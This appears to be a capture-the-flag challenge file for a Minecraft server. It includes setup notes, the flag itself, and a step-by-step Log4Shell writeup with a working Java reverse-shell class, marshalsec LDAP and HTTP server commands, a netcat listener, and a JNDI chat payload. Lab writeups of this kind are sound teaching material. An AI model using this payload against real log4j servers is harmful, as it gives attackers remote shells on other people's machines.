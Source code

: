 # Mine

### Description

You wanna play spleef with me on my new Minecraft server?

Flag format: `pctf{}`

### Difficulty

7/10

This may vary as an automated exploit was released that may work but I haven't tested it.

### Flag

`pctf{whos_joe?_joe_mama_haha_g0ttem}`

### Hints

The Minecraft version is awfully old, I wonder if it has any vulnerabilities.

### Author

Andy Smith

### Tester

### Setup

[https://gmuedu-my.sharepoint.com/:u:/g/personal/asmit22_gmu_edu/Efege-JFC5dNrDKU5bHYeHoBeXGZaUcmJq4mIhCMHUshqw?e=dbdfr4](https://gmuedu-my.sharepoint.com/:u:/g/personal/asmit22_gmu_edu/Efege-JFC5dNrDKU5bHYeHoBeXGZaUcmJq4mIhCMHUshqw?e=dbdfr4)

Requires Docker.

You need to mount two volumes that container the cache and java binary. This was done to save overall space so containers aren't each storing the minecraft jars and java binaries.

For the hosted challenge, the port is 25565 and the volumes JSON string will be:

```json
{"/home/ubuntu/challenges/mine/zulu8.31.0.1-jdk8.0.181-linux_x64": {"bind": "/bin/java", "mode": "ro"}, "/home/ubuntu/challenges/mine/cache": {"bind": "/home/joe/Documents/minecraft/cache", "mode": "ro"}}
```

Example of testing it (will run on a random port):

```bash
sudo docker run --rm -d -p 0.0.0.0::25565 -v /home/andy/mc/zulu8.31.0.1-jdk8.0.181-linux_x64:/bin/java:ro -v /home/andy/mc/cache:/home/joe/Documents/minecraft/cache:ro mc_minecraft
```

### Writeup

You know we had to do a Minecraft log4j challenge. This uses a JNDI chat message to exploit the server.

This solution is going to require a reverse shell, so running on a VPS or other host with a public IP will be ideal.

First step is to try connecting to the server to understand what version it is. This shows that it's 1.16.5. Download Minecraft 1.16.5 and join the server. The server conveniently says that it's running OpenJDK 8u181.

You need to match that same JDK version. A lot of sources seem to have removed their older vulnerable versions, so the best source I found personally was Azul's JDKs. The direct link for 8u181 is [https://cdn.azul.com/zulu/bin/zulu8.31.0.1-jdk8.0.181-linux_x64.tar.gz](https://cdn.azul.com/zulu/bin/zulu8.31.0.1-jdk8.0.181-linux_x64.tar.gz). Extract that on a Linux system.

Then you need to get the marshalsec tool. Run a `git clone https://github.com/mbechler/marshalsec`.

Install maven to build marshalsec. `sudo apt install maven`. The Java version here doesn't matter since maven can build for prior versions.

Then cd into the marshalsec directory and build the jar: `mvn clean package -DskipTests`

Next, you need a payload. The following is a simple reverse shell:

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="PUT YOUR IP HERE";
        int port=4444;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
```

Save that to `Exploit.java` (it's Java so the filename, class name, and constructor name all need to match).

Compile it with the Java 1.8 you downloaded, e.g. `./zulu8.31.0.1-jdk8.0.181-linux_x64/bin/javac Exploit.java`

That will make a `Exploit.class` file.

Now start an HTTP server so that the JNDI exploit can download the exploit class. `python3 -m http.server`

Run the marshalsec jar and specify your IP, e.g. `./zulu8.31.0.1-jdk8.0.181-linux_x64/bin/java -cp marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.1:8000/#Exploit"`

This will start the listener. The final prep is to run a netcat listener, such as `nc -lvnp 4444`.

Now, go back to the Minecraft server and send a chat message like `${jndi:ldap://172.17.0.1:1389/Exploit}`. Make sure the IP is yours and the port is the one the marshalsec listener prints when you start it.

This should work and you should get a shell. The current path will be `/home/joe/Documents/minecraft`. Navigate up to the Desktop directory and there will be a flag.txt.
